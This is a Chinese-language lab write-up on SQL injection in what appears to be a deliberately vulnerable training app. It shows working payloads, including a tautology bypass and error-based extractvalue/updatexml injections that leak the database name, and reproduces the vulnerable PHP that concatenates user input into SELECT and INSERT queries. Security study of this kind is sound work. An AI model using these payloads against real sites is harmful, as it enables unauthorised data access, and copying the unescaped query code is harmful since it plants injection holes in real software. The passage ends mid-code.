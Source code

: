 ### XX 型注入

#### 漏洞利用

fuzzing payload `') or 1=1 --+` 通过，该注入点通过单引号和括号闭合，接下来可一条龙

#### 漏洞代码解读

```PHP
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```

### insert/update 语句注入

#### 漏洞利用

insert/update 语句执行后无法直接获取到数据，也无法使用联表查询。此时往往使用报错注入以外带数据。登陆业务往往是通过 SELECT 语句进行判断的，但 fuzz 测试后发现较难注入，不过有报错信息。注意到该页面存在注册入口，由于注册等业务需要写入数据，因此往往与 insert 等 SQL 语句相关联，可尝试寻找注册页面的注入点。

在注册页面的必填字段测试 `')` 观察报错信息发现 password 字段值被 md5 函数以 `md5('PASSWORD_INPUT')` 包裹，username 字段值被 ' 包裹。

fuzzing payload 可爆出数据库名，登陆成功后的信息修改页面与当前注册页面的其余一条龙注入 payload 类似

```plaintext
//username: 1' and extractvalue(1,concat(0x5c,database(),0x5c)),1,1,1,1,1)#
// password: 123

// 也可以用 updatexml 函数
// username: 1' and updatexml(0,concat(0x5c,database(),0x5c),1),1,1,1,1,1)#
username=1%27+and+extractvalue%281%2Cconcat%280x5c%2Cdatabase%28%29%2C0x5c%29%29%2C1%2C1%2C1%2C1%2C1%29%23&password=123&sex=&phonenum=&email=&add=&submit=submit
```

#### 漏洞代码解读

注册页面 ( insert )

```PHP
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
```